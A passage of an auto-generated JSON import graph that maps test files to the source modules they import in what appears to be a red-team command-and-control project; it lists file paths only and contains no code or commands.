"source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_addon_creator.py", "target": "lazyc2/addon_creator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_addon_creator.py", "target": "lazyc2/blueprints/addons.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aes_key_propagation.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_ai_commands_llm.py", "target": "cli/commands/ai.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_ai_commands_llm.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_authz.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_key_resolution.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_key_resolution.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_key_resolution.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_key_resolution.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_v1.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_v1.py", "target": "lazyc2/blueprints/api_v1.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_v1.py", "target": "modules/beacon_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_api_v1.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_asset_gate.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_asset_gate.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_asset_gate.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_asset_gate.py", "target": "cli/commands/lazyops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_asset_gate.py", "target": "modules/intel_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_asset_gate.py", "target": "modules/intel_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_asset_gate.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_asset_gate.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_asset_gate.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_attack_surface3d.py", "target": "modules/attack_surface3d.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_attack_surface3d.py", "target": "modules/intel_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_crypto.py", "target": "cli/auto_crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_crypto.py", "target": "cli/auto_crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_crypto.py", "target": "cli/auto_crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_crypto.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_crypto.py", "target": "cli/commands/session_ops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_crypto.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_crypto.py", "target": "cli/commands/misc_migrated.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_crypto.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_crypto.py", "target": "cli/commands/misc_migrated.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_registry.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_auto_registry.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/asset_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/asset_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/sidequestion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/selfupdate.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/selfupdate.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/enrich.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_ops.py", "target": "modules/enrich.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_replay.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autonomous_replay.py", "target": "skills/autonomous_replay.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_autosuggest.py", "target": "cli/autosuggest.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_banner_config.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_banner_config.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_banner_config.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bdd_infra_range_report.py", "target": "cli/commands/infra.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bdd_infra_range_report.py", "target": "modules/c2_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bdd_infra_range_report.py", "target": "cli/commands/lab.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bdd_infra_range_report.py", "target": "modules/professional_report.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_beacon_config_builder.py", "target": "modules/beacon_config_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_beacon_history.py", "target": "modules/beacon_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bof_registry.py", "target": "modules/bof_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_boyscout_contracts.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_boyscout_contracts.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_boyscout_contracts.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_boyscout_contracts.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "skills/lazyown_groq_agents.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "skills/lazyown_groq_agents.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "skills/lazyown_groq_agents.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "skills/lazyown_groq_agents.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "skills/lazyown_groq_agents.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_c2_profile_engine.py", "target": "modules/c2_profile_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_campaign_import_safety.py", "target": "core/safe_import.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_categories.py", "target": "modules/categories.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_chain_mode.py", "target": "cli/chain_mode.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_assign.py", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_auth_remember.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/commands/diagnostics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/commands/diagnostics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/commands/diagnostics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_command_sets.py", "target": "cli/commands/diagnostics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_enhancements.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_enhancements.py", "target": "cli/cli_enhancements.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_enhancements.py", "target": "cli/commands/audit.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_enhancements.py", "target": "cli/commands/audit.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_enhancements.py", "target": "cli/commands/audit.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cli_enhancements.py", "target": "cli/commands/audit.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_collab_and_onboarding.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_collab_and_onboarding.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_collab_and_onboarding.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_collab_and_onboarding.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_collab_and_onboarding.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_collab_and_onboarding.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_collab_and_onboarding.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_collab_and_onboarding.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_collab_and_onboarding.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_allowlist.py", "target": "lazyc2/security/command_allowlist.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_allowlist_behavior.py", "target": "lazyc2/security/command_allowlist.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_chain.py", "target": "cli/command_chain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_chain.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_form.py", "target": "cli/command_form.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": 